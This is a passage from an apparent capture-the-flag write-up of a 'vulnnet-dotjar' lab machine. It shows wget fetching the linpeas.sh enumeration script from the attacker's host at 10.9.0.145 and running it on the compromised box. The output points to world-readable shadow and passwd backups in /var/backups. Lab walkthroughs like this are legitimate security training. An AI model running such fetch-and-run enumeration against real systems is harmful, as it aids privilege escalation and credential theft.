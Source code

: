 - Get linpeas on the target machine and execute it. I have added the output of linpeas which I found to be useful.

```bash
web@vulnnet-dotjar:~$ wget http://10.9.0.145:8000/linpeas.sh
--2021-05-10 21:49:28--  http://10.9.0.145:8000/linpeas.sh
Connecting to 10.9.0.145:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 339569 (332K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 331.61K   213KB/s    in 1.6s    

2021-05-10 21:49:30 (213 KB/s) - ‘linpeas.sh’ saved [339569/339569]

web@vulnnet-dotjar:~$ chmod +x linpeas.sh 
web@vulnnet-dotjar:~$ ./linpeas.sh | tee linpeas.output
.
.

[+] Password policy
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512
.
.
[+] Backup folders
drwxr-xr-x 2 root root 4096 May 11 07:45 /var/backups
total 2644
-rw-r--r-- 1 root root    102400 May 11 07:45 alternatives.tar.0
-rw-r--r-- 1 root root      2763 Jan 15 15:32 alternatives.tar.1.gz
-rw-r--r-- 1 root root     13208 Jan 31 16:10 apt.extended_states.0
-rw-r--r-- 1 root root      1419 Jan 31 16:01 apt.extended_states.1.gz
-rw-r--r-- 1 root root      1542 Jan 15 18:08 apt.extended_states.2.gz
-rw-r--r-- 1 root root        11 Jan 15 15:06 dpkg.arch.0
-rw-r--r-- 1 root root        43 Jan 15 15:06 dpkg.arch.1.gz
-rw-r--r-- 1 root root        43 Jan 15 15:06 dpkg.arch.2.gz
-rw-r--r-- 1 root root        43 Jan 15 15:06 dpkg.arch.3.gz
-rw-r--r-- 1 root root       280 Jan 15 15:26 dpkg.diversions.0
-rw-r--r-- 1 root root       160 Jan 15 15:26 dpkg.diversions.1.gz
-rw-r--r-- 1 root root       160 Jan 15 15:26 dpkg.diversions.2.gz
-rw-r--r-- 1 root root       160 Jan 15 15:26 dpkg.diversions.3.gz
-rw-r--r-- 1 root root       228 Jan 15 15:18 dpkg.statoverride.0
-rw-r--r-- 1 root root       179 Jan 15 15:18 dpkg.statoverride.1.gz
-rw-r--r-- 1 root root       179 Jan 15 15:18 dpkg.statoverride.2.gz
-rw-r--r-- 1 root root       179 Jan 15 15:18 dpkg.statoverride.3.gz
-rw-r--r-- 1 root root   1383027 Feb  2 17:27 dpkg.status.0
-rw-r--r-- 1 root root    373294 Jan 31 16:02 dpkg.status.1.gz
-rw-r--r-- 1 root root    375385 Jan 15 18:08 dpkg.status.2.gz
-rw-r--r-- 1 root root    366250 Jan 15 15:22 dpkg.status.3.gz
-rw------- 1 root root       857 Jan 15 18:11 group.bak
-rw------- 1 root shadow     711 Jan 15 18:11 gshadow.bak
-rw------- 1 root root      1745 Jan 15 15:52 passwd.bak
-rw-r--r-- 1 root root       485 Jan 16 13:44 shadow-backup-alt.gz
-rw------- 1 root shadow    1179 Jan 16 13:37 shadow.bak

.
.
```
